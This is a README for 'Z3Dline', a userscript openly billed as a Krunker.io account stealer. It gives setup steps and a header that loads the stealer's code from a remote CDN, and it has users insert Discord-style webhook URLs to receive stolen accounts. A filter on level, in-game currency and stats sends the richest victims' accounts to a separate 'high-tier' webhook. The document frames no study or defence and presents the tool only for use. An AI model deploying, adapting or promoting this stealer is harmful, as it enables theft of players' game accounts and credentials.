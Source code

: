 # Z3Dline

An improved version of PTWline stealer for Krunker.io.

# Usage

- `@require` The script in your userscript header.
- You also need to require `jsonpack` and `msgpack-lite`, see example below.
- Replace the `LO_WEBHOOK_URL` and `HI_WEBHOOK_URL` with your own webhook URLs.
- You can also change the `HI_FILTER` to set which accounts will go to the High-Tier Webhook. ONLY ACCOUNTS MATCHING ALL THE FILTERS WILL BE SENT TO THE HIGH-TIER WEBHOOK.

```js
// ==UserScript==
// @name         Z3DLine
// @description  Krunker Account Stealer
// @version      1.0.0
// @author       z3db0y
// @match        *://*.krunker.io/*
// @icon         https://www.google.com/s2/favicons?sz=64&domain=krunker.io
// @grant        none
// @run-at       document-start
// @require      https://unpkg.com/jsonpack
// @require      https://unpkg.com/msgpack-lite/dist/msgpack.min.js
// @require      https://cdn.jsdelivr.net/gh/z3db0y/Z3Dline/dist.js
// ==/UserScript==

window.LO_WEBHOOK_URL = '';
window.HI_WEBHOOK_URL = '';
window.HI_FILTER = {
    lvl: 0,
    kr: 0,
    kdr: 0,
    nukes: 0,
    accuracy: 0
};
```